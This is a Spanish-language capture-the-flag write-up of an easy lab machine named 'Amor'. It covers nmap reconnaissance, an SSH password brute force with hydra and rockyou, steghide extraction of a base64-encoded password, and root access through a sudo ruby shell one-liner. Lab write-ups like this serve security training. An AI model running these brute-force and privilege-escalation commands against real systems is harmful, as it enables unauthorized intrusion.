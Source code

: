 ```yaml
---
description: '✍️ Autor: Romabri🔍 Dificultad: Fácil  📅 Fecha de creación: 26/04/2024'
---
```


# Amor

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/0 (5).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

![](<../../.gitbook/assets/1 (5).png>)

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/2 (5).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea de una empresa de seguridad.

![](<../../.gitbook/assets/3 (5).png>)

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**. Hemos probado con **Juan**, pero el usuario que responde es **carlota**.

Al realizar el ataque de fuerza bruta, descubrimos la contraseña de **carlota**, por lo que nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh carlota@172.17.0.2
```

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

![](<../../.gitbook/assets/5 (5).png>)

Indagando entre los directorios encontramos que hay una imagen por lo que a través de **SFTP** la trasladaremos a nuestra propia máquina. Esto se puede llevar a cabo ya que conocemos las credenciales perfectamente.

![](<../../.gitbook/assets/6 (4).png>)

![](<../../.gitbook/assets/7 (4).png>)

Con el comando:

```bash
steghide extract -sf imagen.jpg
```

extraemos datos ocultos de un archivo de imagen llamado **imagen.jpg** usando la herramienta **Steghide**, obteniendo un archivo llamado **secret.txt**.

![](<../../.gitbook/assets/8 (4).png>)

![](<../../.gitbook/assets/9 (4).png>)

Como comprobamos que el contenido está en **base64**, lo decodificamos con el comando:

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 --decode
```

![](<../../.gitbook/assets/10 (3).png>)

Al parecer, es una contraseña. En la carpeta **home** hay tres usuarios en los cuales podemos probar esa contraseña. Nos damos cuenta de que podemos acceder como **Óscar**. Al tener acceso, observamos los permisos y explotamos el binario de **Ruby** con el comando:

```bash
sudo ruby -e 'exec "/bin/sh"
```

<figure><img src="../../.gitbook/assets/image (498).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (499).png" alt=""><figcaption></figcaption></figure>

